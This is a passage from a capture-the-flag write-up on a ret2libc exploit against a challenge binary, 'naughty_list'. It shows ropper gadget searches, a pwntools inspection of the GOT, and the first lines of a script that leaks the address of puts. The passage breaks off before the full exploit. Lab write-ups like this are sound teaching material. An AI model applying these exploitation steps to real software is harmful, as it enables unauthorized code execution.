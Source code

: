 Now the second step in a ret2libc attack is to leak the address of a functions in the .got section, this should be pretty simple to do.

Let's start by finding a `pop_rdi; ret` instruction using ropper, so we can align our stack before starting to do a `ropchain`.

```
$ ropper -- --search "pop rdi; ret" --file ./naughty_list
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./naughty_list
0x0000000000401443: pop rdi; ret;
```

We see that at address `0x0000000000401443`, we have the `pop rdi; ret` instruction. We can take that value and add it into our python script.
```py
pop_rdi = pwn.p64(0x0000000000401443)
```

Sometimes using `ret` instead of `pop rdi; ret` is a better idea, since it's totally doable you can search for a `ret` instruction in the binary and you can add it the same way we just did with `pop_rdi`.

Next thing we need to do is to find a function we want to leak the address of, so what i did was open `bpython or python`, and you can do the following to see the different functions available in the `.got` section.
```
>>> import pwn
>>> e = pwn.ELF("./naughty_list")
[*] '/challenge/pwn_naughty_list/naughty_list'
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
>>> e.got
{'__libc_start_main': 6299632, '__gmon_start__': 6299640, 'stdout': 6299744, 'stdin': 6299760, 'toupper': 6299520, '
puts': 6299528, 'strlen': 6299536, 'printf': 6299544, 'memset': 6299552, 'alarm': 6299560, 'read': 6299568, 'srand':
6299576, 'strcmp': 6299584, 'time': 6299592, 'setvbuf': 6299600, '__isoc99_scanf': 6299608, 'fwrite': 6299616, 'ran
d': 6299624}
```
We can notice a few functions we can leak, but for this challenge we will simply use `puts`, so we can continue our script the following way.
```py
puts_at_got = pwn.p64(e.got.puts)
```

And since we want to leak the address of that function we need to get the address of `puts` in the `plt` section, this will cause `puts` to be called with the address of `puts_at_got` as argument (the address of puts in libc), therefore leaking the address on the screen, we can use pwntools to receive the line and to unpack the value. You can add thefollowing to your script.
```py
puts_at_plt = pwn.p64(e.plt.puts)
```
Okay so now we can see if our script is able to leak the address of puts on the screen, your script should look like the following.
```py
import pwn

e = pwn.ELF("./naughty_list")
libc = pwn.ELF("libc.so.6")
```